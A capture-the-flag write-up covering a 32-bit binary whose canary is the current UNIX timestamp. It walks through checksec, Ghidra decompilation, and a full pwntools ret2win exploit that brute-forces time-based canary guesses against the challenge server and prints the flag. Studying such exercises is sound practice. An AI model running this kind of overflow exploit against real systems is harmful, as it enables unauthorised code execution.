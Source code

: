 The first thing I do to this file s to run the file and checksec commands to see what basic protection it has.  it is in 32 bit with  PIE disabled but it has NX. It also says it has no stack canary so the canary must be added at the runtime of the program.

I then run it in ghidra
```C
  local_14 = popen("date +%s","r");
  if (local_14 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_20,12,local_14);
  pclose(local_14);
  global = strtol(local_20,(char **)0x0,10);
```
I can see from this snippet of code that it opens a file and get the UNIX timestamp, it then stores it and then turns it into a long and sets global equal to it. It then runs the readin() function with global as its parameter.

```C
void read_in(int param_1)

{
  undefined1 local_58 [72];
  int local_10;
  
  local_10 = param_1;
  read(0,local_58,140);
  if (local_10 != global) {
    puts("****Stack Smashing Detected!!!****\nExiting now.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```
Inside of readin() there is a read that allows for a buffer overflow! But then it checks the canary that is that global variable from before.

From there it is a normal ret2win with a canary but the I imported the time library so that I could also get the current timestamp for the canary value. When running remotely sometimes the time would have a slight discrepancy. I solved this by sending it in a loop and adjusting an offset from the original time.

```python
#!/usr/bin/env python3
import time
from pwn import *

# target info
HOST = "www.cweaccessionsctf.com"
PORT = 1315

# gadgets / offsets
WIN_ADDR = 0x080491f6
BUFFER_OFFSET = 72
PAD_AFTER_CANARY = 12

def try_canary(canary):
    """
    Open a fresh connection, send the payload with our guessed canary,
    and return the process object so caller can check its output.
    """
    p = remote(HOST, PORT)
    # if the binary prints a prompt, sync up here:
    # p.recvuntil(b"Enter your data:") 

    payload  = b"A" * BUFFER_OFFSET
    payload += p32(canary)
    payload += b"B" * PAD_AFTER_CANARY
    payload += p32(WIN_ADDR)

    p.sendline(payload)
    return p

if __name__ == "__main__":
    # base time—sync with the server’s time() if you can
    base = int(time.time())

    for i in range(0, 10):
        guess = base + i
        log.info(f"[*] attempting canary = 0x{guess:08x}")
        p = try_canary(guess)

        # give the remote a moment to respond
        time.sleep(0.1)

        # read whatever comes back
        try:
            data = p.recvall(timeout=1)
        except EOFError:
            data = b""

        # look for your flag in the output
        if b"CWE{" in data or b"flag" in data.lower():
            log.success(f"FOUND! canary=0x{guess:08x}")
            print(data.decode(errors="ignore"))
            p.interactive()
            break

        # if it wasn’t the right canary, close and loop
        p.close()
    else:
        log.error("All attempts failed.")


```

CWE{fly_away_little_canary_TZ4gELYH}
<!--stackedit_data:
eyJoaXN0b3J5IjpbODE2OTg3NzMzLC0xNTMyMjM5MDYzLDUwND
E0ODQwNl19
-->